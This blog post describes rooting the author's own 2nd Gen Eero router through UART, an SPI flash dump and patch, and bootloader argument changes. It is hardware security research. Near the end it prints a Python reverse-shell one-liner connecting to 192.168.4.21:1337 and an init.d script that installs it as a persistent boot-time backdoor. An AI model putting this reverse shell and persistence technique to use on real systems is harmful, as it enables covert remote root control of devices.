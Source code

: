 ```yaml
---
title: Getting a Root Shell on the 2nd Gen Eero Router
date: 2024-10-21 # HH:MM:SS +/-TTTT
# categories: [CVE, Research, Bug Bounty]
# tags: [TAG]     # TAG names should always be lowercase
---
```


# Summary

Earlier this year, I wanted to dig into the 2nd Gen Eero Router. While working with physical devices it is very helpful to get root access to the device at the beginning of testing. Getting a root on the Eero device was not as trivial as it is on most IoT devices and taught me a lot.

In this blog post, I'm describing all the steps (and failed ideas) I took to get access to the device.

My approach can be split into a few simple steps:
- Getting a UART shell read access
- Reading the SPI Flash content
- Overwriting the SPI Flash content
- Getting a boot shell
- Getting a full-access shell

# Getting a UART shell read access

At the beginning, I wanted to try the most basic technique of getting the shell on the device - by attaching to the UART port on the board. On the Eero board, the UART port is located next to the Flash chip. 
![[/assets/_images/eero/image0.png]]

Its TX, RX, and GND pins look as follows:
![[/assets/_images/eero/image1.png]]

I've soldered 3 cables into the board and connected it to my UART-USB reader. When attaching it to the terminal, I only got read access to the bootloader logs:
![[/assets/_images/eero/image2.png]]

The logging always stopped after displaying the `Starting kernel ...` message and I couldn't interrupt the booting process because the time to stop the autoboot was set to 0 seconds.

# Reading the SPI Flash content

At this point, I've decided I need to read and overwrite the SPI Flash content to increase the autoboot interruption time. I've desoldered the chip and spent a lot of time trying to read its content with my Bus Pirate v3 board. Unfortunately for unknown reasons, it couldn't read the content.

I then attempted to read it using the Flipper Zero tool and its [SPI Mem Manager](https://lab.flipper.net/apps/spi_mem_manager) application. It turned out extremely easy to use with guidance on how to connect each pin. 
![[/assets/_images/eero/image3.png]]

After connecting pins, it automatically recognized the model of the SPI chip and read its content.
![[/assets/_images/eero/image4.png]]

### Changing boot arguments in the flash dump

Running `binwalk` found the flash dump contained multiple file formats inside. 
```bash
$ binwalk SPIMem_2024-03-19_01,37,45.bin 

DESCRIPTION     HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0       0x0         ELF, 32-bit LSB executable, ARM, version 1 (SYSV) 
19432   0x4BE8      Ubiquiti partition header, header size: 56 bytes, name: "PARTNUM_SHFT", size -1912995176 bytes
81400   0x13DF8     Unix path: /dev/icbcfg/boot
263424  0x40500     ATAGS msm partition table (msmptbl), version: 4, number of paritions: 11
393216  0x60000     ELF, 32-bit LSB executable, ARM, version 1 (SYSV)
614007  0x95E77     XML document, version: "1.6"
9830640 0xF0000     ELF, 32-bit LSB shared object, ARM, verston 1 (SYSV)
1358089 8x1488B9    Certificate in DER format (x509 v3), header length: 4, sequence length: 1284
1358125 0x14892D    Certificate tn DER format (x509 v3), header length: 4, sequence length: 1288
1422840 0x1585F8    CRC32 polynomial table, little endian
1424624 0x15BCF0    CRC32 polynomial table, little endian
```

The most important for me was finding a place where boot arguments are stored to change the `bootdelay` value from `0` to any higher value. I've opened the file in the hex editor and quickly searched for the arguments. It found two identical instances of boot arguments:
![[/assets/_images/eero/image5.png]]

The arguments are doubled for backup purposes. If there is any issue in the first copy of the arguments, they are replaced with the second one. 

I've then changed the `bootdelay` argument to 9 seconds. When changing the arguments, I also had to edit the CRC32 checksum placed at the beginning of the arguments section to match the changes. In the first section, the bytes are `27 03 EA 09`

After making the changes, I wrote the edited firmware back to the SPI chip, soldered it to the board, and started the device.

# Bootloader shell

After overwriting the boot options I was able to interrupt the startup process. The bootloader shell is very limited but allowed to run a few useful commands such as:
- `mmc` - MMC sub system
- `tftpput` - TFTP put command, for uploading files to a server
- `setenv` - set environment variables to persistent storage

At first, I thought I could get the main OS memory from the MMC by loading its content in chunks to the RAM and then using the `tftpput` command uploading it to my PC. I have created a simple Python script to do it automatically:
```python
for i in range(0x0, 0x720000, 0x5111):
	port.write(f"mmc read 84000000 {i} 5111\n".encode())
	wait_for_is_read()
	
	port.write(f"tftpput 84000000 A22200 file{count}\n".encode())
	wait_for_is_read()
	
	count += 1
```

The script took a few hours to finish. Unfortunately only after I've done it, I understood my mistake. The data on disk is fragmented and one part of a file may lay in a different block of the disk than the second part. I ended up with a dump of useless junk.
```
$ binwalk dump.bin
[...]
3144050055 0xBB666587 merypt 2.2 encrypted data, algorithm: blowfish-448, mode: CBC, keymode: Sbit
3144080041 0xBBGGDAA9 Certificate tn DER format (x569 v3), header length: 4, sequence length: 1284
3144086153 6xBB660B19 Certificate in DER format (x589 v3), header length: 4, sequence length: 1288
3144080785 0xBB66DD91 Certificate in DER format (x569 v3), header length: 4, sequence length: 1284
3144184896 0xBB687440 Untx path: /var/log/conntrackd. log
3144186616 0xBB687AF8 Untx path: /var/log/conntrackd-stats.log
3144344324 0xBB6AE304 Unix path: /sys/dev/block/%d:%d/loop/backing_file
3144345176 8xBB6AE658 Untx path: /dev/dtsk/by-uutd/
3144361384 6xBB6B25A8 Untx path: /usr/share/locale
3144391168 0xBB6B9A08 ELF, 32-bit LSB shared object, ARM, verston 1 (SYSV)
3144442332 6xBB6C61DC Unix path: /dev/disk/by-uutid/
3144443266 8xBB6C657C Untx path: /sys/dev/btock/%d:%d/loop/backitng_file
3144446896 0xBB6C73B0 Unix path: /usr/share/locale
3144495088 8xBB6D2FF6 Unix path: /usr/share/locale
3144497240 0xBB6D3858 Unix path: /dev/dtsk/by-uutd/
3144498588 0xBB6D3D9C Untx path: /sys/dev/block/%d:%d/loop/backing_file
3144505856 0xBBÓDSA60 ELF, 32-bit LSB shared object, ARM, version 1 (SYSV)
3144522240 0xBB6ÓD9A08 ELF, 32-bit LSB shared object, ARM, version 1 (SYSV)
3144538112 6xBB6DD866 Unix path: /usr/share/locale
3144546816 0xBB6DFAG66 ELF, 32-bit LSB shared object, ARM, verston 1 (SYSV)
```

I then figured out an easier way of getting the shell in the system. Using the bootloaders `setenv` command I've changed the boot args adding the `console=ttyMSM0,115200n8 init=/bin/sh` options. 
```bash
$ setenv bootargs="root=/dev/mmcblk0p4 loglevel=6 rdinit=/bin/kinit rw single rootdelay=5 rootwait_nodelay rootwait_timeout=5 console=ttyMSM0,115200n8 init=/bin/sh"
$ saveenv
```

After saving the changes using the `saveenv` command and restarting the device, I successfully got my first root shell.
![[/assets/_images/eero/image6.png]]

There was a tiny issue with the shell I've got - it ran just before the `systemd` started every important process in the system so I couldn't check what binaries are listening on ports and what arguments are used when starting them.
![[/assets/_images/eero/image7.png]]

I figured I needed to add a reverse shell to the startup process itself. To do so, I've created two files:

**/var/backdoor**
```bash
#!/bin/sh
while true; do
    python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("192.168.4.21",1337));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")' && kill -9;
    sleep 1;
done
```

and 

**/etc/init.d/s99backdoor**
```bash
#!/bin/sh
case "$1" in 
    start)
        /bin/sh /var/backdoor &
        [ $? =0 ] && echo "Started" || echo "Failed to start"
        ;;
    stop)
        /bin/sh /var/backdoor &
        [ $? =0 ] && echo "Stopped" || echo "Failed to stop"
        ;;
    reload)
        "$0" stop
        "$0" start
       ;;
   *)
    echo "How to: $0 {start | stop | reload}"
   exit 1
esac

exit $?
```

I enabled the backdoor script to run when the system boots using the `update-rc.d` tool:
```
$ chmod +x /var/backdoor
$ /usr/sbin/update-rc.d s99backdoor defaults
```

After restarting the system and starting a listener on my machine with address `192.168.4.21`, I got a reverse shell with root privileges with all the processes properly started.

![[/assets/_images/eero/image8.png]]

# Final thoughts

During this project I've learned a lot about hardware components, soldering, and booting process. Getting a root shell was only a beginning of the project, after which I analysed the binaries working in the system and it's whole ecosystem.